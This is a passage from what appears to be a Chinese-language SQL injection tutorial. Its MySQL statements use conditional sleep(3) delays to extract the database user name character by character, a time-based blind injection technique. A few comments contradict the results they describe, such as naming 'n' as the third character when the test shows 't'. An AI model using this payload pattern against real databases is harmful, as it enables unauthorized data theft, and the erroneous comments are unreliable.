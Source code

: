 ```
select if(substring(user(),2,1)<'o',sleep(3),1); -- 延迟3s，说明在m~0之间 ==> 那就是n了
select if(substring(user(),2,1)='n',sleep(3),1); -- 延迟3s，说明第2个字符是n

-- 获取第三个字符是什么
select if(substring(user(),3,1)>'a',sleep(3),1); -- 延迟3s，说明第3个字符比a大
select if(substring(user(),3,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),3,1)>'p',sleep(3),1); -- 延迟3s，说明在p~z之间
select if(substring(user(),3,1)<'v',sleep(3),1); -- 延迟3s，说明在p~v之间
select if(substring(user(),3,1)<'s',sleep(3),1); -- 不延迟，说明在s~v之间
select if(substring(user(),3,1)>'t',sleep(3),1); -- 不延迟，说明在s~t之间 ==> 要么s要么t
select if(substring(user(),3,1)='s',sleep(3),1); -- 不延迟
select if(substring(user(),3,1)='t',sleep(3),1); -- 延迟3s，说明第3个字符是n

-- 获取第四个字符是什么
select if(substring(user(),4,1)>'a',sleep(3),1); -- 不延迟，说明第4个字符比a小
select if(substring(user(),4,1)>'A',sleep(3),1); -- 不延迟，说明第4个字符比A小
select if(substring(user(),4,1)>'0',sleep(3),1); -- 延迟3s，说明可能是数字或者特殊符号
select if(substring(user(),4,1)<'9',sleep(3),1); -- 不延迟，说明是9~A之间的特殊符号
select if(substring(user(),4,1)='@',sleep(3),1); -- 延迟3s，说明就是@了

-- 说明用户名为：dnt

-- PS：可以自己验证一下：dnt@
select substring(user(),1,1),substring(user(),2,1),substring(user(),3,1),substring(user(),4,1);
```
